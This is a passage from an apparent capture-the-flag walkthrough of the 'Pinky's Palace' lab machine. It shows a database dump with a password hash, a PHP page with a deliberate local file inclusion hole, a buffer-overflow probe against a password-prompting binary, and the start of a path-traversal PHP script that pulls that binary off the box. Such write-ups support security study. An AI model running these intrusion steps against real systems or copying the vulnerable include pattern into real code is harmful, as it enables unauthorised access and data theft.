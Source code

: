 ```
+---------------------+
1 row in set (0.00 sec)

MariaDB [secretsdb]> select * from users;
+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
|    1 | pinky    | e09d0a6ab74963a7ad389a8ae5a79aaa |
+------+----------+----------------------------------+
1 row in set (0.00 sec)
```

There is a local file inclusion (LFI) vulnerability in the pagegap.php file
```
stefano@Pinkys-Palace:/var/www/html/nginx/pinkydb/html$ cat pageegap.php 
<?php
	include($_GET['1337']);
?>
```

This could allow a pivot to www-data user. The www-data group can view the `qsub` file that is owned by pinky.

## Welcome to Question Submit! (qsub)

When we run the `qsub` binary in the tools folder, we are prompted for a password.
```
stefano@Pinkys-Palace://home/stefano/tools$ ./qsub
./qsub <Message>
stefano@Pinkys-Palace://home/stefano/tools$ ./qsub HELLO FROM Q SUB!
[+] Input Password: password
[!] Incorrect Password!
```

Attempts to trigger a buffer overflow with the password entry input trigger a different response.
```
stefano@Pinkys-Palace://home/stefano/tools$ ./qsub Hello!
[+] Input Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Bad hacker! Go away!
```

The PHP Local file include (LFI) vulnerability discovered earlier can allow us to create a shell.  I am mostly interested in reverse engineering the `qsub` file so I created a php include script to simply download that file so I could work on it.

```
stefano@Pinkys-Palace://home/stefano/tools$ cat <<EOF >>/tmp/getfile.php
> <?php
> \$filepath = '../../../../../../../../../home/stefano/tools/qsub';
> \$filename = 'qsub';
> 
> if (file_exists(\$filepath)) {
>     header('Content-Description: File Transfer');
>     header('Content-Type: application/x-download');
>     header('Content-Disposition: attachment; filename="'.basename(\$filename).'"');
>     header('Content-Transfer-Encoding: binary');
>     header('Expires: 0');
>     header('Cache-Control: must-revalidate');
>     header('Pragma: public');
>     header('Content-Length: ' . filesize(\$filepath));
>     readfile(\$filepath);
>     exit;
```